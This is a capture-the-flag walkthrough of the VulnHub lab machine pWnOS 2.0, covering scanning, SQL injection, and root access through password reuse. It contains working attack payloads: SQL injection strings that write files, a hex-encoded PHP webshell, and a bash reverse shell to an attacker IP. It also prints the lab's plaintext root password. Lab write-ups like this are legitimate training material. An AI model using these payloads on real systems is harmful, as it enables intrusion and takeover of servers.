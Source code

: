 ```yaml
---
title: VulnHub - PWnOS 2.0
author: s4rgaz
date: 2021-12-07 15:10:46 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, sql injection, file disclosure]
---
```


**Description:** A linux machine hosting a web application vulnerable to SQL Injection in which the File_Priv permission was leveraged to write a webshell on the server and thus obtaining the first foothold. Password reuse allowed to get root privileges.

**Author:** pWnOS

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/pwnos-20-pre-release,34/](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

## Information Gathering
### Host Discovery

The virtual machine has an static IP address set up, so we must assign an IP in the same addressing range, as shown below: 

```console
root@kali:~$ ip addr add 10.10.10.200/24 dev vmnet1
```

An scan with arp-scan allowed us to detect the address of our target.

```console
root@kali:~$ arp-scan -I vmnet1 10.10.10.0/24                                                   
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.100    00:0c:29:a3:96:fa       VMware, Inc.
```

### Port Scanning

A full TCP port scan with nmap discovered two open ports.

```console
root@kali:~$ nmap -n -v -T4 -p- 10.10.10.100 -oG nmap/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

Service detection and script scanning were performed against the target machine in orer to detect more information about open ports.

```console
root@kali:~$ nmap -sV -sC -p22,80 -n -v 10.10.10.100 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
|   2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_  256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.17 (Ubuntu)
|_http-title: Welcome to this Site!
```

### Web Enumeration

The web server contains a simple web page with a welcome message.

![](/assets/images/pwnos2/screenshot-1.png)

Running dirsearch allowed other web resources to be discovered.

```console
root@kali:~$ dirsearch -u http://10.10.10.100/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
[18:41:40] Starting: 
[18:41:41] 301 -  311B  - /blog  ->  http://10.10.10.100/blog/
[18:41:41] 200 -    1KB - /login
[18:41:41] 200 -    2KB - /register
[18:41:41] 200 -   50KB - /info
[18:41:44] 200 -  854B  - /index
[18:41:45] 301 -  315B  - /includes  ->  http://10.10.10.100/includes/
[18:42:32] 302 -    0B  - /activate  ->  http://10.10.10.100/index.php
[18:53:38] 403 -  293B  - /server-status
```

In the web page, a form login is vulnerable to SQL Injection, so the login was bypassed.

![](/assets/images/pwnos2/screenshot-2.png)

![](/assets/images/pwnos2/screenshot-3.png)


## Exploitation
### Mysql File Privileges

Another interesting way is to try to write content on the server taking advantage of the SQL Injection vulnerability, the following request tries to dump all users of the database and write them to a file called dump in the includes directory.

`' or 1=1 into outfile '/var/www/includes/dump'-- -`

![](/assets/images/pwnos2/screenshot-4.png)

As we can see the file was written, showing us the only registered user.

```console
root@kali:~$ curl -s http://10.10.10.100/includes/dump                            
1       Dan     Privett admin@isints.com        c2c4b4e51d9e23c02c15702c136c3e950ba9a4af        0       \N      2011-05-07 17:27:01
```

Now we will try to write a webshell on the server, for that we need to know the column numbers.

First we must intercept the login request and send it to **Intruder**, we choose the attack type "sniper", and highlight the parameter to test.

![](/assets/images/pwnos2/screenshot-5.png)

Set the payload type to "Numbers", in **Payload Options** we choose numbers from 1 to 10, as shown in the following screenshot.

![](/assets/images/pwnos2/screenshot-6.png)

Then, click on **Start Attack**, as we can see in the following image there are 8 columns.

![](/assets/images/pwnos2/screenshot-7.png)

When trying to enumerate the ninth column the server responds with an error.

![](/assets/images/pwnos2/screenshot-8.png)

Then, we hex encode the webshell.

```console
root@kali:~$ echo -n "<?php passthru(\$_GET['cmd']); ?>" | xxd -ps | tr -d '\n'; echo
3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e
```

We use the following SQL statement to write it to the server.

`' and 1=2 union select 0x3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e,0x20,0x20,0x20,0x20,0x20,0x20,0x20 into outfile '/var/www/includes/z.php'-- -`

![](/assets/images/pwnos2/screenshot-9.png)

Now we can execute system comands.

```console
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We set up a netcat listener, and run the following curl request.

```console
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=$(urlencode -m '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.200/443 0>&1"')"
```

We got a shell as user www-data, and we upgrade it to a TTY shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.10.200] from (UNKNOWN) [10.10.10.100] 52171
bash: no job control in this shell
www-data@web:/var/www/includes$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@web:/var/www/includes$
```

Listing the web server, in the directory /var I found a MySQL connection file.

```console
www-data@web:/var$ cat mysqli_connect.php
...
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
...
```

## Privilege Escalation
### Password Reuse

We switch to user root entering the password to connect to MySQL.

```console
www-data@web:/var$ su -
su -
Password: root@ISIntS

root@web:~#id
id
uid=0(root) gid=0(root) groups=0(root)
```

Also we can access via SSH, since root login is anabled in the SSH configuration file.

```console
www-data@web:/var$ grep -i 'permitrootlogin' /etc/ssh/sshd_config
grep -i 'permitrootlogin' /etc/ssh/sshd_config
PermitRootLogin yes
```

```console
root@kali:~$ ssh root@10.10.10.100
root@10.10.10.100's password: 
root@web:~# id
uid=0(root) gid=0(root) groups=0(root)
```
